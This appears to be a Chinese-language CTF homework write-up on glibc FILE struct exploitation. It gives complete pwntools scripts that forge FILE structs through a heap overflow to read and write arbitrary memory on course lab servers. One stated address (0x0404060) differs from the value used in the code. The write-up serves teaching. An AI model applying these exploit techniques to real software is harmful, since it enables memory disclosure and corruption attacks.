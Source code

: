 # 2022 Computer Security HW8 Writeup - Pwn

[![hackmd-github-sync-badge](https://hackmd.io/YSOLbi79QWaq6TEt-T6HnQ/badge)](https://hackmd.io/YSOLbi79QWaq6TEt-T6HnQ)

* [HW8 github (Writeup and Payload)](https://github.com/fdff87554/Computer-Security-2022/tree/main/homework/Homework-08)


## FILE_AAR - LAB

* 觀察了一下題目，可以發現可以利用的部分是 `buf` 這個參數，因為其只有 malloc `0x10` 這個大小卻在下面 read 了 `0x1000` 的資料，這會造成對 `fp` 內容的 overwrite，允許我們任意建構 `FILE` struct 的內容，因此我們的目標為 **任意讀取 (AAR)** 到 `flag`，並且將資料印出到 `stdout` (or `stderr`)。
* 這邊先用 `checksec` 來檢查檔案的安全性設定，可以看到沒有 `PIE` 跟 `STACK CANARY`，所以首先等於可以用 `objdump` or `ida` 先直接看記憶體位置 (絕對位置)，然後可以不用考慮 Leak Canary 的問題。
    > ![](https://i.imgur.com/zZzPJ3D.png)
* 因為上課有提過 `malloc` 的 `buf` 跟 `fp` 的 chunk 會連著，所以可以直接蓋到 `fp` 的內容，並且根據投影片敘述的 `FILE` 結構我們可以堆出我們想要的值。
    > ![](https://i.imgur.com/NCw5lTN.png)
    > ![](https://i.imgur.com/PNk0oSt.png)
* 而因為 `flags` 的結果是 `0xfbad0800`
    * `flags &= ~NO_WRITES` 為 unset `NO_WRITES`，讓其可寫入。
    * `flags |= (MAGIC | CURRENTLY_PUTTING)` 為確定結構正常的 (`MAGIC`) 和目前正在寫入 (`CURRENT_PUTTING`)。
    * `read_end = write_base = <target_address>` 是為了不讓讀寫的區域重疊。
    * 找到了 `target_address` 為 `flag` 的 address (如下圖) 之後，就可以建構我的們 chunk 跟 payload 了
        > ![](https://i.imgur.com/56Gcnk2.png)
        ```python=
        from pwn import *

        context.arch = 'amd64'
        r = remote("edu-ctf.zoolab.org", 10010)

        flag_addr = 0x0404050

        # chunk
        fake_chunk = flat(
            b'aaaaaaaa', b'aaaaaaaa',  # buf data
            b'aaaaaaaa', 0xc0,
            0xfbad0800,                # flags
            0x0,	                   # read_ptr
            flag_addr,	               # read_end
            0x0,	                   # read_base
            flag_addr,	               # write_base
            flag_addr + 0x100,	       # write_ptr
            0x0,	                   # write_end
            0x0,	                   # buf_base
            0x0,	                   # buf_end
            0x0, 0x0, 
            0x0, 0x0,
            0x0,	                   # chain
            0x1,	                   # fileno 
        )

        r.send(fake_chunk)
        r.interactive()
        ```
        > ![](https://i.imgur.com/g8vqmSK.png)
* 可以拿到 flag: `FLAG{QAQ...}`


## FILE_AAW - LAB

* 觀察題目可以看到一樣是 `buf` 可以 overflow 來覆寫 `fp` 的內容的 code，其目標是只要 `owo` 這個變數的內容不等於 `OWO!`，就會把 `flag` 顯示給我們看了，因此目標就是覆蓋到 `owo` 的資料。
* 今天目標是 **任意撰寫 (AAW)** 代表把從 stdin 的資料寫到特定地址，所以要控制的是 fread 的執行流程。一樣看一下 ppt 截圖的環境設置部分
    > ![](https://i.imgur.com/rwfuy51.png)
* 起手式一樣先檢查檔案有哪些保護，從下列截圖可以看到一樣沒有 PIE 跟 CANARY，所以一樣可以用 `objdump` or `ida` 先直接看記憶體位置 (絕對位置)，然後可以不用考慮 Leak Canary 的問題。
    > ![](https://i.imgur.com/J9Bw9Jy.png)
    * 其中 `flags` 的結果一樣是 `0xfbad000`
        * `flags &= ~(NO_READ | EOF_SEEN)` 為 unset，這兩個的意思就是讓他可以讀和沒有吃到 EOF
    * 一樣用 IDA 直接開找到目標 address 如下圖為 `0x0404060`
        > ![](https://i.imgur.com/r5cqiMw.png)
* 找到了 `target_address` 為 `owo` 的 address (如上圖) 之後，就可以依照上面一提的邏輯建構 chunk 跟 payload 了。
    ```python=
    from pwn import *

    context.arch = 'amd64'
    r = remote("edu-ctf.zoolab.org", 10009)

    owo_addr = 0x0404070

    fake_chunk = flat(
        b'aaaaaaaa', b'aaaaaaaa',    # buf data
        b'aaaaaaaa', 0xc0,
        0xfbad0000,                  # flags
        0x0,	                     # read_ptr
        0x0,	                     # read_end
        0x0,	                     # read_base
        owo_addr,	                 # write_base
        0x0,	                     # write_ptr
        0x0,	                     # write_end
        owo_addr,	                 # buf_base
        owo_addr + 0x100,	         # buf_end
        0x0, 0x0, 
        0x0, 0x0,
        0x0,	                     # chain
        0x0,	                     # fileno 
    )

    r.send(fake_chunk)
    r.interactive()
    ```
    > ![](https://i.imgur.com/840GQLa.png)
* 可以拿到 flag: `FLAG{sushi}`


---
###### tags: `CyberSec` `Writeup` `2022`

<style>
.navbar-brand::after { content: " × Crazyfire Lee"; }
</style>
